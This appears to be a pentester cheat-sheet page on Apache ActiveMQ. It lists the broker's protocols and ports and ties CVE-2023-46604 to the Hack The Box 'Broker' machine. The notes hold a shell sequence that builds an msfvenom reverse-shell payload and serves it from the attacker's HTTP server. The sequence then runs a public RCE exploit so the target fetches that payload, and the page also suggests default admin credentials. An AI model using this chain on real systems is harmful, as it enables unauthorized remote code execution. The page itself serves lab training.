 # Apache ActiveMQ

<div class="row row-cols-lg-2"><div>

Apache [ActiveMQ](https://activemq.apache.org/) is an open source [message broker](https://en.wikipedia.org/wiki/Message_broker) written in Java. It support multiple protocols such as JMS, [MQTT](/operating-systems/others/embedded/_knowledge/index.md#mqtt-protocol), STOMP, [AMQP](/operating-systems/others/embedded/_knowledge/index.md#amqp-protocol).

* [Classic](https://github.com/apache/activemq) <small>(2.2k ⭐)</small> / [Artemis](https://github.com/apache/activemq-artemis) <small>(0.9k ⭐)</small>
* [Artemis Documentation](https://activemq.apache.org/components/artemis/documentation/)
* ActiveMQ Artemis is the next gen version

It's commonly used when we need to connect applications that are using different protocols.
</div><div>

**Common ports** 🐊

* 1883 <small>(TCP, MQTT)</small>
* 5671 <small>(TCP, SSL/TLS AMQP)</small>
* 5672 <small>(TCP, AMQP)</small>
* 8161 <small>(TCP, Admin Web)</small>
* 8883 <small>(TCP, SSL/TLS MQTT)</small>
* 61613 <small>(TCP, STOMP)</small>
* 61614 <small>(TCP, SSL/TLS STOMP)</small>
* 61616 <small>(TCP, ActiveMQ OpenWire transport)</small>
</div></div>

<hr class="sep-both">

## ActiveMQ Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

* [CVE-2023-46604](https://nvd.nist.gov/vuln/detail/CVE-2023-46604): vulnerability in ActiveMQ OpenWire Transport leading to remote code execution

[![broker](../../../cybersecurity/_badges/htb-p/broker.svg)](https://app.hackthebox.com/machines/Broker)

```shell!

$ git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ.git cve-2023-46604
$ cd cve-2023-46604
$ sed -i 's/0.0.0.0/x.y.z.t/g' poc-linux.xml
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 RHOSTS=broker.htb -f elf -o test.elf
$ go build
$ python -m http.server 8001 # in another terminal
$ ./ActiveMQ-RCE -i <target_ip> -u http://<your_IP>:8001/poc-linux.xml
```

* Test default credentials (`admin:admin`, `user:user`)
</div><div>
</div></div>
